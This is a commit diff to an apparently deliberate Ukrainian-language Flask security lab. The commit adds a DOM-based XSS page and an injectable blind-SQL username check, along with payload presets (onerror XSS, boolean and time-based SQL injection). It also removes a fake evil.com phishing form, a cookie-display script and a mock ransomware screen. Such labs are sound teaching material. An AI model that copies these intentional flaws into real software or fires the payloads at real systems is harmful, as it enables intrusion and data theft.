
After one commit to lokiuji/flask-xss-lab, a Flask app: page /advanced in a window 1280 px wide. The commit adds this page. Shown: the top 552 px of the page. Run offline with Flask 3, Linux system fonts and the light colour scheme; a user stored in the database is signed in.

Commit message:
Додав advanced.html та оновив базу даних і app.py

```diff
--- a/app.py
+++ b/app.py
@@ -10,7 +10,6 @@ app.secret_key = 'super_secret_key'
 app.config['SESSION_COOKIE_HTTPONLY'] = False
 app.config['SESSION_COOKIE_SECURE'] = False
 
-# === ВИМИКАЄМО ЗАХИСТ БРАУЗЕРА (Щоб XSS точно працювали) ===
 @app.after_request
 def add_header(response):
     response.headers['X-XSS-Protection'] = '0'
@@ -23,7 +22,6 @@ UPLOAD_FOLDER = os.path.join(BASE_DIR, 'uploads')
 DB_PATH = os.path.join(BASE_DIR, 'xss_lab.db')
 
 app.config['UPLOAD_FOLDER'] = UPLOAD_FOLDER
-# Дозволені розширення для "справжніх" файлів у захищеному режимі
 SAFE_EXTENSIONS = {'png', 'jpg', 'jpeg', 'gif', 'pdf', 'txt'}
 
 if not os.path.exists(UPLOAD_FOLDER):
@@ -31,283 +29,14 @@ if not os.path.exists(UPLOAD_FOLDER):
 
 # --- ПРЕСЕТИ ---
 PRESET_FILES = {
-'test_alert.html': '<script>alert("XSS Successful!")</script><h1>HACKED</h1>',
-    'evil_image.svg': '''<svg width="300" height="300" xmlns="http://www.w3.org/2000/svg" onload="alert('XSS IN THE HOUSE!')">
-        <polygon points="100,10 200,100 0,100" style="fill:brown;stroke:black;stroke-width:3" />
-        <rect x="25" y="100" width="150" height="100" style="fill:yellow;stroke:black;stroke-width:3" />
-        <rect x="80" y="140" width="40" height="60" style="fill:red;stroke:black;stroke-width:2" />
-        <text x="20" y="230" font-family="Verdana" font-size="20" fill="black">Home Sweet XSS</text>
-    </svg>''',
-    'cookie_stealer.html': '''<body style="background:#222; color:#0f0; font-family:monospace;">
-        <h1>COOKIE STEALER 3000</h1>
-        <script>
-            // Виводимо ВСІ кукі, які бачить браузер
-            alert("VICTIM COOKIES FOUND:\\n\\n" + document.cookie);
-            document.write("<h2>STOLEN DATA:</h2><hr>");
-            document.write("<h3>" + document.cookie + "</h3>");
-        </script>
-    </body>''',
-    'fake_login.html': '<h2>Session Expired</h2><form action="http://evil.com"><input placeholder="Password" type="password"><button>Login</button></form>',
-    'red_screen.html': '<style>body{background:red!important;}</style><h1>RED SCREEN OF DEATH</h1>',
-    'safe_note.txt': 'This is a safe text file. Nothing to worry about.',
+    'test_alert.html': '<script>alert("XSS Successful!")</script><h1>HACKED</h1>',
+    'cookie_stealer.html': '<script>alert("VICTIM COOKIES:\\n" + document.cookie);</script>',
     'calc.exe': 'FAKE BINARY CONTENT',
-    'simulation_hack.html': '''<!DOCTYPE html>
-<html lang="uk">
-<head>
-    <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>SYSTEM FAILURE</title>
-    <style>
-        body { margin: 0; padding: 0; overflow: hidden; background-color: black; font-family: 'Courier New', monospace; user-select: none; }
-
-        /* Фон з матрицею */
-        #background-wrapper {
-            position: fixed; top: 0; left: 0; width: 100%; height: 100%; z-index: 1;
-        }
-        canvas { display: block; position: absolute; top: 0; left: 0; z-index: 0; }
-
-        /* Логи терміналу */
-        #terminal-log {
-            position: absolute; top: 0; left: 0; width: 100%; height: 100%;
-            padding: 20px; box-sizing: border-box; z-index: 10;
-            display: flex; flex-direction: column; justify-content: flex-end;
-            pointer-events: none;
-        }
-        .log-line { color: #00ff00; font-size: 16px; font-weight: bold; text-shadow: 0 0 5px #00ff00; margin-bottom: 4px; opacity: 0.9; }
-
-        /* Червоне вікно */
-        #hacker-message-box {
-            display: none;
-            position: fixed; top: 50%; left: 50%; transform: translate(-50%, -50%);
-            background: rgba(0, 0, 0, 0.95); border: 4px solid red;
-            padding: 40px; width: 90%; max-width: 900px;
-            text-align: center; box-shadow: 0 0 100px red; z-index: 9999; border-radius: 5px;
-        }
-
-        .hacker-text {
-            color: red; font-size: 28px; font-weight: bold;
-            text-shadow: 0 0 10px red; white-space: pre-wrap; line-height: 1.6;
-            text-transform: uppercase; margin-bottom: 30px;
-        }
-
-        /* Таймер */
-        #timer {
-            font-size: 48px; color: #ff0000; font-weight: bold;
-            text-shadow: 0 0 20px red; background-color: #220000;
-            display: inline-block; padding: 10px 20px; border: 2px solid red;
-            display: none;
-        }
-
-        /* Анімації */
-        .shake-normal { animation: shake-bg 0.1s infinite; }
-        @keyframes shake-bg {
-            0% { transform: translate(2px, 2px); } 25% { transform: translate(-2px, -2px); }
-            50% { transform: translate(-2px, 2px); } 75% { transform: translate(2px, -2px); }
-            100% { transform: translate(0px, 0px); }
-        }
-
-        .shake-centered { animation: shake-center 0.08s infinite; }
-        @keyframes shake-center {
-            0% { transform: translate(calc(-50% + 4px), calc(-50% + 4px)); }
-            25% { transform: translate(calc(-50% - 4px), calc(-50% - 4px)); }
-            50% { transform: translate(calc(-50% - 4px), calc(-50% + 4px)); }
-            75% { transform: translate(calc(-50% + 4px), calc(-50% - 4px)); }
-            100% { transform: translate(-50%, -50%); }
-        }
-
-        /* Кнопка запуску звуку (для обходу політики браузера) */
-        #start-overlay {
-            position: fixed; top: 0; left: 0; width: 100%; height: 100%;
-            z-index: 99999; background: transparent; cursor: pointer;
-        }
-    </style>
-</head>
-<body>
-    <!-- Невидимий шар для активації звуку при кліку -->
-    <div id="start-overlay" onclick="enableAudio()"></div>
-
-    <div id="background-wrapper">
-        <canvas id="matrix"></canvas>
-        <div id="terminal-log"></div>
-    </div>
-
-    <div id="hacker-message-box">
-        <div id="typewriter" class="hacker-text"></div>
-        <div id="timer">01:00:00</div>
-    </div>
-
-    <script>
-        // --- 1. АУДІО СИСТЕМА (ВИПРАВЛЕНО) ---
-        const AudioContext = window.AudioContext || window.webkitAudioContext;
-        let audioCtx = new AudioContext();
-        let audioEnabled = false;
-
-        function enableAudio() {
-            if (audioCtx.state === 'suspended') {
-                audioCtx.resume();
-            }
-            audioEnabled = true;
-            document.getElementById('start-overlay').style.display = 'none';
-        }
-
-        // Звук друкування / басу
-        function playEvilSound() {
-            if (!audioEnabled) return;
-            try {
-                const osc1 = audioCtx.createOscillator();
-                const gain = audioCtx.createGain();
-
-                osc1.type = 'sawtooth';
-                osc1.frequency.setValueAtTime(100, audioCtx.currentTime);
-                osc1.frequency.exponentialRampToValueAtTime(30, audioCtx.currentTime + 0.3);
-
-                gain.gain.setValueAtTime(0.5, audioCtx.currentTime);
-                gain.gain.exponentialRampToValueAtTime(0.01, audioCtx.currentTime + 0.3);
-
-                osc1.connect(gain);
-                gain.connect(audioCtx.destination);
-                osc1.start();
-                osc1.stop(audioCtx.currentTime + 0.3);
-            } catch(e) {}
-        }
-
-        // Звук тікання таймера (ДОДАНО ВІДСУТНЮ ФУНКЦІЮ)
-        function playTick() {
-            if (!audioEnabled) return;
-            try {
-                const osc = audioCtx.createOscillator();
-                const gain = audioCtx.createGain();
-                osc.type = 'square';
-                osc.frequency.value = 800;
-                gain.gain.setValueAtTime(0.1, audioCtx.currentTime);
-                gain.gain.exponentialRampToValueAtTime(0.01, audioCtx.currentTime + 0.05);
-                osc.connect(gain);
-                gain.connect(audioCtx.destination);
-                osc.start();
-                osc.stop(audioCtx.currentTime + 0.05);
-            } catch(e) {}
-        }
-
-        // --- 2. МАТРИЦЯ ---
-        const canvas = document.getElementById('matrix');
-        const ctx = canvas.getContext('2d');
-        canvas.width = window.innerWidth;
-        canvas.height = window.innerHeight;
-
-        let matrixColor = '#0F0';
-        const chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789@#$%^&*';
-        const fontSize = 14;
-        const columns = canvas.width / fontSize;
-        const drops = Array(Math.floor(columns)).fill(1);
-
-        function drawMatrix() {
-            ctx.fillStyle = 'rgba(0, 0, 0, 0.05)';
-            ctx.fillRect(0, 0, canvas.width, canvas.height);
-            ctx.fillStyle = matrixColor;
-            ctx.font = fontSize + 'px monospace';
-
-            for (let i = 0; i < drops.length; i++) {
-                const text = chars[Math.floor(Math.random() * chars.length)];
-                ctx.fillText(text, i * fontSize, drops[i] * fontSize);
-                if (drops[i] * fontSize > canvas.height && Math.random() > 0.975) drops[i] = 0;
-                drops[i]++;
-            }
-        }
-        setInterval(drawMatrix, 35);
-
-        // --- 3. ЛОГИ ---
-        const terminalLog = document.getElementById('terminal-log');
-        const commands = [
-            "Initializing root exploit...", "Loading kernel modules...", "Bypassing firewall rules (Port 443)...",
-            "Handshake with remote host established.", "Accessing memory dump...", "Scanning for saved passwords...",
-            "[SUCCESS] Found 'passwords.txt'", "[SUCCESS] Found 'cookies.sqlite'", "Decrypting RSA keys...",
-            "Injecting payload to system32...", "Disabling Windows Defender...", "Disabling Antivirus...",
-            "Uploading private data (15%)...", "Uploading private data (45%)...", "Uploading private data (89%)...",
-            "Uploading private data (100%)... DONE.", "Formatting C:/ Drive simulation...", "Locking user interface...",
-            "Establishing permanent backdoor...", "SYSTEM COMPROMISED."
-        ];
-
-        let lineIndex = 0;
-        function addLogLine() {
-            if (lineIndex < commands.length) {
-                const line = document.createElement('div');
-                line.className = 'log-line';
-                const timestamp = new Date().toLocaleTimeString();
-                line.innerText = `[${timestamp}] ${commands[lineIndex]}`;
-                terminalLog.appendChild(line);
-                lineIndex++;
-                setTimeout(addLogLine, Math.random() * 100 + 30);
-            } else {
-                setTimeout(triggerFinale, 800);
-            }
-        }
-        setTimeout(addLogLine, 500);
-
-        // --- 4. ФУНКЦІЯ ТАЙМЕРА ---
-        function startTimer() {
-            const timerEl = document.getElementById('timer');
-            timerEl.style.display = 'inline-block';
-
-            let totalSeconds = 59 * 60 + 59;
-
-            setInterval(() => {
-                if (totalSeconds <= 0) {
-                    timerEl.innerText = "00:00:00";
-                    timerEl.style.color = "black";
-                    timerEl.style.backgroundColor = "red";
-                    return;
-                }
-
-                totalSeconds--;
-                let h = Math.floor(totalSeconds / 3600);
-                let m = Math.floor((totalSeconds % 3600) / 60);
-                let s = totalSeconds % 60;
-
-                h = h < 10 ? '0' + h : h;
-                m = m < 10 ? '0' + m : m;
-                s = s < 10 ? '0' + s : s;
-
-                timerEl.innerText = `${h}:${m}:${s}`;
-                playTick(); // ТЕПЕР ЦЕ ПРАЦЮЄ
-
-            }, 1000);
-        }
-
-        function triggerFinale() {
-            terminalLog.style.display = 'none';
-            matrixColor = '#FF0000';
-
-            document.getElementById('background-wrapper').className = 'shake-normal';
-
-            const box = document.getElementById('hacker-message-box');
-            box.style.display = 'block';
-            box.className = 'shake-centered';
-
-            const text = "YOUR PC HAS BEEN HACKED.\\n\\nALL YOUR DATA IS ENCRYPTED.\\nDO NOT TURN OFF YOUR COMPUTER.\\n\\nSEND 1 BITCOIN TO UNLOCK.\\nTIME LEFT:";
-            const typeWriter = document.getElementById('typewriter');
-            let i = 0;
-
-            function type() {
-                if (i < text.length) {
-                    const char = text.charAt(i);
-                    typeWriter.textContent += char;
-                    if (char !== '\\n' && i % 2 === 0) playEvilSound(); // Звук через раз, щоб не рипіло
-                    i++;
-                    setTimeout(type, 50);
-                } else {
-                    startTimer();
-                }
-            }
-            type();
-        }
-    </script>
-</body>
-</html>'''
 }
 
 def get_db_connection():
     conn = sqlite3.connect(DB_PATH)
-    conn.row_factory = sqlite3.Row # Дозволяє звертатись до колонок по імені
+    conn.row_factory = sqlite3.Row
     return conn
 
 def init_db():
@@ -315,7 +44,6 @@ def init_db():
     cur = conn.cursor()
     cur.execute('''CREATE TABLE IF NOT EXISTS users (id INTEGER PRIMARY KEY AUTOINCREMENT, username TEXT UNIQUE NOT NULL, password TEXT NOT NULL, role TEXT DEFAULT 'user');''')
     cur.execute('''CREATE TABLE IF NOT EXISTS comments (id INTEGER PRIMARY KEY AUTOINCREMENT, content TEXT NOT NULL);''')
-    # Додаємо колонку is_sanitized для відображення
     cur.execute('''CREATE TABLE IF NOT EXISTS files (id INTEGER PRIMARY KEY AUTOINCREMENT, filename TEXT NOT NULL, upload_type TEXT NOT NULL, is_sanitized BOOLEAN DEFAULT 0);''')
 
     cur.execute("SELECT * FROM users WHERE username = 'admin'")
@@ -344,17 +72,6 @@ def login_required(f):
 @app.route('/uploads/<name>')
 def download_file(name):
     return send_from_directory(app.config['UPLOAD_FOLDER'], name)
-
-# Спеціальний маршрут для читання тексту безпечного файлу
-@app.route('/read_content/<name>')
-@login_required
-def read_content(name):
-    try:
-        with open(os.path.join(app.config['UPLOAD_FOLDER'], name), 'r', encoding='utf-8', errors='ignore') as f:
-            content = f.read()
-        return content
-    except:
-        return "Error reading file"
 
 @app.route('/check_db_version')
 def check_db_version():
@@ -401,6 +118,37 @@ def index():
         return jsonify({'status': 'success', 'message': 'Payload Saved!'})
     return render_template('xss.html', preset_files=PRESET_FILES.keys())
 
+# === НОВІ МАРШРУТИ (STEP 1) ===
+
+@app.route('/advanced')
+@login_required
+def advanced():
+    return render_template('advanced.html')
+
+# BLIND SQL ENDPOINT
+@app.route('/api/check_username', methods=['POST'])
+@login_required
+def check_username():
+    username = request.form.get('username', '')
+    conn = get_db_connection()
+    cur = conn.cursor()
+    exists = False
+    try:
+        # Вразливий запит, але ми не повертаємо помилку!
+        # Тільки True або False
+        query = f"SELECT * FROM users WHERE username = '{username}'"
+        cur.execute(query)
+        if cur.fetchone():
+            exists = True
+    except:
+        # При помилці SQL ми просто кажемо "не знайдено" (Blind Behavior)
+        exists = False
+
+    conn.close()
+    return jsonify({'exists': exists})
+
+# === OLD ROUTES ===
+
 @app.route('/sqli', methods=['GET', 'POST'])
 @login_required
 def sqli():
@@ -446,7 +194,6 @@ def scan_file():
 def upload_vulnerable():
     file = request.files.get('file')
     if not file: return jsonify({'status':'error', 'message':'No file'})
-
     file.save(os.path.join(app.config['UPLOAD_FOLDER'], file.filename))
     save_file_to_db(file.filename, 'vulnerable', False)
     return jsonify({'status':'warning', 'message':f'💀 {file.filename} Executed!'})
@@ -456,18 +203,13 @@ def upload_vulnerable():
 def upload_secure():
     file = request.files.get('file')
     if not file: return jsonify({'status':'error', 'message':'No file'})
-
     filename = file.filename
     is_sanitized = False
-
-    # САНІТИЗАЦІЯ: Якщо файл небезпечний, ми його не блокуємо, а перетворюємо на .txt
     if not allowed_file(filename):
-        filename = filename + ".txt" # Перетворюємо скрипт на текст
+        filename = filename + ".txt"
         is_sanitized = True
-
     file.save(os.path.join(app.config['UPLOAD_FOLDER'], filename))
     save_file_to_db(filename, 'secure', is_sanitized)
-
     if is_sanitized:
         return jsonify({'status':'success', 'message':f'🛡️ Sanitized: {filename}'})
     return jsonify({'status':'success', 'message':f'✅ Uploaded: {filename}'})
@@ -478,19 +220,14 @@ def upload_preset():
     fname = request.form.get('filename')
     mode = request.form.get('mode')
     if fname not in PRESET_FILES: return jsonify({'status':'error'})
-
     content = PRESET_FILES[fname]
     is_sanitized = False
-
-    # Логіка для захищеного режиму
     if mode == 'secure':
         if not allowed_file(fname):
             fname = fname + ".txt"
             is_sanitized = True
-
     with open(os.path.join(app.config['UPLOAD_FOLDER'], fname), 'w', encoding='utf-8') as f:
         f.write(content)
-
     save_file_to_db(fname, mode, is_sanitized)
     return jsonify({'status':'success', 'message':f'Injected: {fname}'})
 
@@ -524,7 +261,6 @@ def reset_db():
 
 def save_file_to_db(name, type, sanitized):
     conn = get_db_connection(); cur = conn.cursor()
-    # is_sanitized = 1 (True) або 0 (False)
     cur.execute('INSERT INTO files (filename, upload_type, is_sanitized) VALUES (?, ?, ?)', (name, type, 1 if sanitized else 0))
     conn.commit(); conn.close()
 
@@ -532,11 +268,9 @@ def save_file_to_db(name, type, sanitized):
 def win_vuln():
     conn = get_db_connection(); cur = conn.cursor()
     cur.execute('SELECT content FROM comments ORDER BY id DESC'); comms = cur.fetchall()
-    # Беремо останній файл для автозапуску
     cur.execute("SELECT filename FROM files WHERE upload_type='vulnerable' ORDER BY id DESC LIMIT 1");
     last_file = cur.fetchone()
     last_filename = last_file['filename'] if last_file else None
-
     conn.close()
     return render_template('vulnerable.html', comments=comms, last_file=last_filename)
 
@@ -544,23 +278,17 @@ def win_vuln():
 def win_sec():
     conn = get_db_connection(); cur = conn.cursor()
     cur.execute('SELECT content FROM comments ORDER BY id DESC'); comms = cur.fetchall()
-
-    # Беремо всі файли, а для санітизованих будемо читати контент
     cur.execute("SELECT filename, is_sanitized FROM files WHERE upload_type='secure' ORDER BY id DESC LIMIT 1");
     last_file_row = cur.fetchone()
-
     last_file = None
     file_content = None
-
     if last_file_row:
         last_file = last_file_row['filename']
         if last_file_row['is_sanitized']:
-            # Читаємо файл, щоб показати код
             try:
                 with open(os.path.join(app.config['UPLOAD_FOLDER'], last_file), 'r', encoding='utf-8', errors='ignore') as f:
                     file_content = f.read()
             except: file_content = "Error reading file"
-
     conn.close()
     return render_template('secure.html', comments=comms, last_file=last_file, file_content=file_content)
 
--- /dev/null
+++ b/templates/advanced.html
@@ -0,0 +1,82 @@
+{% extends 'base.html' %}
+
+{% block content %}
+<div style="max-width: 1000px; margin: 0 auto;">
+
+    <div style="text-align: center; margin-bottom: 30px;">
+        <h1 style="color: #8e44ad; margin-bottom: 10px;">🧪 Advanced Lab</h1>
+        <p style="color: #7f8c8d;">Специфічні атаки: Client-Side XSS та сліпі ін'єкції.</p>
+    </div>
+
+    <div style="display: grid; grid-template-columns: 1fr 1fr; gap: 30px;">
+
+        <div class="box" style="border-top: 4px solid #e67e22;">
+            <h3 style="color: #e67e22; margin-top:0;">1. DOM-Based XSS</h3>
+            <p style="font-size:13px;">Скрипт зчитує дані з URL (після #) і вставляє їх у сторінку без перевірки.</p>
+
+            <div id="welcome-msg" style="padding: 15px; background: #fdf2e9; border: 1px dashed #e67e22; border-radius: 5px; text-align: center;">
+                Очікування хештегу...
+            </div>
+
+            <div style="margin-top: 15px;">
+                <p style="font-size: 12px; color: #666;">Натисніть кнопку, щоб симулювати атаку:</p>
+                <button onclick="attackDom()" class="btn btn-orange btn-full">АТАКУВАТИ ЧЕРЕЗ URL # 🔗</button>
+            </div>
+
+            <script>
+                // ВРАЗЛИВИЙ КОД
+                // Ми читаємо все, що після # в адресному рядку
+                var hash = decodeURIComponent(window.location.hash.substring(1));
+
+                // І вставляємо це як HTML (innerHTML) - це і є DOM XSS
+                if(hash) {
+                    document.getElementById("welcome-msg").innerHTML = "Привіт, " + hash;
+                }
+
+                function attackDom() {
+                    // Перезавантажуємо сторінку з шкідливим хешем
+                    window.location.hash = "#<img src=x onerror=alert('DOM_XSS_SUCCESS')>";
+                    window.location.reload();
+                }
+            </script>
+        </div>
+
+        <div class="box" style="border-top: 4px solid #2c3e50;">
+            <h3 style="color: #2c3e50; margin-top:0;">2. Blind SQL Injection</h3>
+            <p style="font-size:13px;">База даних відповідає лише "Так" або "Ні". Помилок не видно.</p>
+
+            <form id="blind-form" class="ajax-form">
+                <input type="text" name="username" placeholder="Check username (e.g. admin)" style="width: 100%; padding: 10px; margin-bottom: 10px; box-sizing: border-box; border: 1px solid #ccc; border-radius: 4px;">
+                <button type="submit" class="btn btn-blue btn-full" style="background: #2c3e50;">ПЕРЕВІРИТИ НАЯВНІСТЬ</button>
+            </form>
+
+            <div id="blind-result" style="margin-top: 15px; text-align: center; font-weight: bold; min-height: 20px;"></div>
+        </div>
+
+    </div>
+</div>
+
+<script>
+    // Обробка форми Blind SQL
+    document.getElementById('blind-form').onsubmit = async (e) => {
+        e.preventDefault();
+        const formData = new FormData(e.target);
+        const resDiv = document.getElementById('blind-result');
+
+        resDiv.innerHTML = "Checking...";
+
+        try {
+            const response = await fetch('/api/check_username', { method: 'POST', body: formData });
+            const data = await response.json();
+
+            if (data.exists) {
+                resDiv.innerHTML = "<span style='color:green'>✅ User exists (TRUE)</span>";
+            } else {
+                resDiv.innerHTML = "<span style='color:red'>❌ User not found (FALSE)</span>";
+            }
+        } catch (err) {
+            resDiv.innerHTML = "Error connecting to server";
+        }
+    };
+</script>
+{% endblock %}
--- a/templates/base.html
+++ b/templates/base.html
@@ -123,6 +123,7 @@
                     <option value="/">💬 XSS LAB</option>
                     <option value="/sqli">💉 SQL INJECTION</option>
                     <option value="/stealth">🛡️ EVASION LAB</option>
+		    <option value="/advanced">🧪 ADVANCED LAB</option>
                 </select>
                 <button class="btn btn-purple btn-full" onclick="openTool()">GO TO PAGE</button>
             </div>
@@ -194,6 +195,16 @@
                      "JJEncode": "$=~[];$={___:++$,$$$$:(![]+\"\")[$]};",
                      "Base64 Exec": "eval(atob('YWxlcnQoMSk='))"
                  }
+            },
+	    '/advanced': {
+                "title": "🧪 ADVANCED PAYLOADS",
+                "data": {
+                    "DOM XSS (Image)": "#<img src=x onerror=alert(1)>",
+                    "DOM XSS (Body)": "#<body onload=alert(1)>",
+                    "Blind SQL (True)": "admin' AND 1=1 --",
+                    "Blind SQL (False)": "admin' AND 1=2 --",
+                    "Blind Time-Based (Sleep)": "admin' AND randomblob(100000000) --"
+                }
             }
         };
 
```
Also changed, not shown: xss_lab.db.
